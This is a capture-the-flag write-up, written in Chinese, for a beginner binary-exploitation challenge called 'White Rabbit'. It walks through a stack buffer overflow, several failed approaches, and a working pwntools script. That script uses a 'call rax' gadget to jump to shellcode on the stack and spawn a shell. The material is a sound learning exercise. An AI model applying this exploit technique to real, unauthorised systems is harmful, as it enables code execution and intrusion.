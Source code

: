 # Beginners - White Rabbit Writeup

---  
![pic](pic/white_rabbit.png)

## FLAG：
` `

## 觀察：
- 執行檔案：印出一隻兔子以及main位址後等待使用者輸入。
  ![pic](pic/run.png)
- IDA分析：
	- `main()`：![pic](pic/main.png)
	- `follow()`：![pic](pic/follow.png)

## 思路：
- `follow()`有buffer overflow。沒有stack canary，因此可以直接複寫return address。
- **(failed)** leak libc/stack：`puts()`與`printf()`參數為`rdi`與`rax`，但能自由控制暫存器值的gadget只有`pop rbp; ret`。
- **(failed)** GOT hijacking using `mov`：無法leak出libc address。
- **(failed)** GOT hijacking using `add`：沒有可用的gadget。
- **(failed)** ret2stack：無法leak出stack address。
- `get()`返回時，rax指向stack。可以搭配`call rax`這個gadget。

## 目標：
- 跳到stack上執行shellcode。

## Exploit：  

```python
from pwn import *
  
exe = ELF("./white_rabbit", checksec=False)
context.binary = exe
context.arch = 'amd64'
context.encoding = 'latin'
context.log_level = 'INFO'
warnings.simplefilter("ignore")
sh = asm(shellcraft.sh())
  
p = process('./white_rabbit')
p.recvuntil(b'  / > ')
main = int(p.recvline().decode(),16)
call_rax = main - 0x1180 + 0x1014
print(f'{hex(main) = }')
print(f'{hex(call_rax) = }')
  
p.recvuntil(b'follow the white rabbit...\n')
pause()
p.sendline(sh + b'A'*(112-len(sh)) + b'B'*8 + p64(call_rax))
p.interactive()
```

![pic](pic/flag.png)
